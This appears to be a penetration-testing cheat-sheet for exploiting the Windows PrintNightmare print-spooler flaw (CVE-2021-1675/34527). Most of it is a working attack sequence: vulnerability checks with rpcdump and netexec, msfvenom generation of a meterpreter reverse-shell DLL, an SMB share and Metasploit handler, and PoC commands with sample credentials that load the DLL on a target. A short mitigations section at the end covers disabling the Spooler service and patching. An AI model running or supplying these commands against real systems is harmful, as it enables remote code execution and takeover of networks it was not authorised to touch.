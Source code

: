 Check for vulnerability
```bash
rpcdump.py @192.168.1.29 | egrep 'MS-RPRN|MS-PAR'
netexec smb 192.168.170.175 -u adot -p eight -M printnightmare
```
Generate malicious DLL
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=1337 -f dll > shell.dll

smbserver.py share `pwd` -smb2support

msfconsole -q -x 'use exploit/multi/handler;set LHOST tun0; set LPORT 443; run'
```
Download and run [POC](https://github.com/cube0x0/CVE-2021-1675).
```bash
python3 printnightmare.py pnpt.local/greg:Password1@192.168.1.129 '\\192.168.1.11\share\shell.dll'
```
Alternatively we can run this [POC](https://github.com/JohnHammond/CVE-2021-34527/tree/master/nightmare-dll/nightmare) locally 
```powershell
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```
### Mitigations
Run Stop-Service Spooler
` REG ADD "HKLM\SYSTEM\CurrentControlSet\Services\Spooler" /v "Start" /t REG_DWORD /d "4" /f`

Patch ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675))